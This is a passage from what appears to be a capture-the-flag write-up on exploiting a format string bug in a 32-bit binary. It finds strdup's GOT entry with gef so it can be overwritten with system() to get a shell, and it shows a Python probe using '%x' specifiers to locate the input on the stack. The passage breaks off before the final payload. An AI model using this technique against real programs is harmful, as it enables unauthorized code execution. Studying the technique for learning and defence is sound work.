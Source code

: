 Looks good! Sweet!  
> Note: Reminder on how [system()](https://github.com/lattera/glibc/blob/master/sysdeps/posix/system.c) works.  

Next on our list is to find the address of `strdup()` in the GOT to be able to overwrite it!  
 
Let's take a look at the assembly snippet from the `vuln()` function for a second:  
        
       ...
       0x080485c9 <+83>:	sub    esp,0xc
       0x080485cc <+86>:	lea    eax,[ebp-0x20c]
       0x080485d2 <+92>:	push   eax
    => 0x080485d3 <+93>:	call   0x80483f0 <strdup@plt>
       0x080485d8 <+98>:	add    esp,0x10
       0x080485db <+101>:	nop
       ...


    gef➤  disassemble 0x80483f0
    Dump of assembler code for function strdup@plt:
       0x080483f0 <+0>:	jmp    DWORD PTR ds:0x804a014
       0x080483f6 <+6>:	push   0x10
       0x080483fb <+11>:	jmp    0x80483c0
    End of assembler dump.
    gef➤  


`0x804a014` is the address we want to overwrite!  


#### Exploit

Following now is a quick script I put together to get a shell without disrupting any normal control flow of the program.  
The bytes to overwrite `strdup()` to get `system()` where manually calculated by trial and error.
First you want to check where on the stack your buffer arguments reside by doing something like this:


{% highlight python %}

...
exploit = ""

exploit += "AAAABBBBCCCC"                      

exploit += "%x "*10
...
{% endhighlight %}

Ideally you can quickly find the `41414141 42424242 43434343` in the output besides other addresses. 
If you do you can see at which position your fed input is dumped.
For example it could look like this:

	AAAABBBBCCCC200 f7faf5a0 f7ffd53c ffffcc48 f7fd95c5 0 41414141 42424242 43434343 25207825 78252078 20782520 25207825 78252078 20782520

That would mean our input is on the 7th position of the stack.
We can replace `AAAABBBBCCCC` now with something more meaningful like an entry from the GOT we want ot overwrite.  
